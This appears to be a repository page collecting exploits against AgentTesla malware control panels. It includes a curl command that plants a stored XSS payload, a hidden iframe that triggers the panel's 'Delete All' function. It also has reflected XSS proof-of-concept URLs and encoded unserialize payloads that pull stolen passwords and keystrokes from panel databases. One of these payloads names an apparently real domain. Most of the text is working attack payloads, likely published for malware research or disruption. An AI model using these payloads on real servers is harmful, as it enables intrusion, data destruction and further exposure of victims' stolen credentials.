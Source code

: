 


Type: Permissions

Author: [karttoon](https://twitter.com/noottrak)

The screenshot directory is not properly secured on AgentTesla panels. Each underlying folder is the HWID of an infected machine (of note for the XSS vulnerability below).

```
hxxp://example[.]com/badguy/Panel/Screens/
hxxp://example[.]com/badguy/Panel/Screens/1234-ABCD-5678-EF01-9ABC-2345-DEF0-6789/ScreenShots/2017_01_02_03_04_05.jpeg
```
Type: XSS vulnerability

Author: [karttoon](https://twitter.com/noottrak)

Once the root of the panel is identified (eg if you saw hxxp://example[.]com/badguy/Panel/post.php, the root is /badguy/Panel/) you can exploit the fact that the AgentTesla panel will directly inject HTML into its database for display to the operator once they view the expanded entry. The trick is convincing them to expand the entry, so you need to use a valid HWID for an infected system and a lure they can't resist. Below example truncates to "[clipboard]credit card d..." and will use XSS to redirect the admin to the "Delete All" function for the data.

```
curl hxxp://example[.]com/badguy/Panel/phost.php --data 'type=keylog&hwid=1234-ABCD-5678-EF01-9ABC-2345-DEF0-6789&time=2017-01-02 03:04:05&pcname=Administrator&logdata=%3Cfont%20color%3D%23FF0000%3E%5Bclipboard%5D%3C%2Ffont%3Ecredit%20card%20details%20are%20below%20with%20password%20p%40%24%24w0rd%3Cfont%20color%3D%23FF0000%3E%5Bclipboard%5D%3C%2Ffont%3E%3Cbr%3E%3Ciframe%20src%3D%22http%3A%2F%2Fexample[.]com%2Fbadguy%2FPanel%2Fdeleteall.php%22%20style%3D%22visibility%3A%20hidden%3B%22%3E%3C%2Fiframe%3E&screen=&ipadd=&webcam_link=&client=&link=&username=&password=&screen_link='
```




Type: Cross Site Scripting Vulnerability

Vuln: http://localhost/WebPanel/pages/get-log.php?title=[XSS]

Author: n4pst3r

```
################################
# Exploit Title: Agent Tesla Botnet - Cross Site Scripting Vulnerability
# Exploit Author: n4pst3r
# Vendor Homepage: unkn0wn
# Software Link: http://www.agenttesla.com/ ¡ Down !
# Version: unkn0wn
# Tested on: Windows 10, debian 7
# CVE : n/a
################################
# Vuln-Code: http://127.0.0.1/WebPanel/pages/get-log.php
                      /get-screens.php
                      /get-webcams.php

<?php echo $_GET['title']; ?>

################################
PoC:

http://127.0.0.1/WebPanel/pages/get-log.php?title=[XSS]
                 /get-screens.php?title=[XSS]
                 /get-webcams.php?title=[XSS]
```





Type: Information Disclosure Disclosure Vulnerability

Vuln: http://localhost/WebPanel/server_side/scripts/server_processing.php?table=passwords&primary=password_id&clmns=a%3A6%3A%7Bi%3A0%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A11%3A%22server_time%22%3Bs%3A2%3A%22dt%22%3Bs%3A11%3A%22server_time%22%3B%7Di%3A1%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A7%3A%22pc_name%22%3Bs%3A2%3A%22dt%22%3Bs%3A7%3A%22pc_name%22%3B%7Di%3A2%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A6%3A%22client%22%3Bs%3A2%3A%22dt%22%3Bs%3A6%3A%22client%22%3B%7Di%3A3%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A4%3A%22host%22%3Bs%3A2%3A%22dt%22%3Bs%3A4%3A%22host%22%3B%7Di%3A4%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A8%3A%22username%22%3Bs%3A2%3A%22dt%22%3Bs%3A8%3A%22username%22%3B%7Di%3A5%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A3%3A%22pwd%22%3Bs%3A2%3A%22dt%22%3Bs%3A3%3A%22pwd%22%3B%7D%7D

Author: n4pst3r

```
################################
# Exploit Title: Agent Tesla Botnet - Information Disclosure Disclosure Vulnerability
# Exploit Author: n4pst3r
# Vendor Homepage: unkn0wn
# Software Link: http://www.agenttesla.com/ ¡ Down !
# Version: unkn0wn
# Tested on: Windows 10, debian 7
# CVE : n/a
# Greetz: Shell.root, Griever, Telibles
################################
# Vuln-Code: http://127.0.0.1/WebPanel/server_side/scripts/server_processing.php

$table = $_GET['table'];

// Table's primary key
$primaryKey = $_GET['primary'];

if(isset($_GET['where'])){
  $where = base64_decode($_GET['where']);
}else{
  $where = "";
}

$idArray = unserialize(urldecode($_GET['clmns']));

################################
PoC Extract full passwords:
http://127.0.0.1/WebPanel/server_side/scripts/server_processing.php?table=passwords&primary=password_id&clmns=a%3A6%3A%7Bi%3A0%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A11%3A%22server_time%22%3Bs%3A2%3A%22dt%22%3Bs%3A11%3A%22server_time%22%3B%7Di%3A1%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A7%3A%22pc_name%22%3Bs%3A2%3A%22dt%22%3Bs%3A7%3A%22pc_name%22%3B%7Di%3A2%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A6%3A%22client%22%3Bs%3A2%3A%22dt%22%3Bs%3A6%3A%22client%22%3B%7Di%3A3%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A4%3A%22host%22%3Bs%3A2%3A%22dt%22%3Bs%3A4%3A%22host%22%3B%7Di%3A4%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A8%3A%22username%22%3Bs%3A2%3A%22dt%22%3Bs%3A8%3A%22username%22%3B%7Di%3A5%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A3%3A%22pwd%22%3Bs%3A2%3A%22dt%22%3Bs%3A3%3A%22pwd%22%3B%7D%7D

PoC Extract full Keystrokes:
http://etvidanueva.com/photos/images/WebPanel/server_side/scripts/server_processing.php?table=logs&primary=log_id&clmns=a%3A6%3A%7Bi%3A0%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A6%3A%22log_id%22%3Bs%3A2%3A%22dt%22%3Bs%3A6%3A%22log_id%22%3B%7Di%3A1%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A11%3A%22server_time%22%3Bs%3A2%3A%22dt%22%3Bs%3A11%3A%22server_time%22%3B%7Di%3A2%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A4%3A%22hwid%22%3Bs%3A2%3A%22dt%22%3Bs%3A4%3A%22hwid%22%3B%7Di%3A3%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A7%3A%22pc_name%22%3Bs%3A2%3A%22dt%22%3Bs%3A7%3A%22pc_name%22%3B%7Di%3A4%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A3%3A%22log%22%3Bs%3A2%3A%22dt%22%3Bs%3A3%3A%22log%22%3B%7Di%3A5%3Ba%3A2%3A%7Bs%3A2%3A%22db%22%3Bs%3A9%3A%22ip_addres%22%3Bs%3A2%3A%22dt%22%3Bs%3A9%3A%22ip_addres%22%3B%7D%7D
``````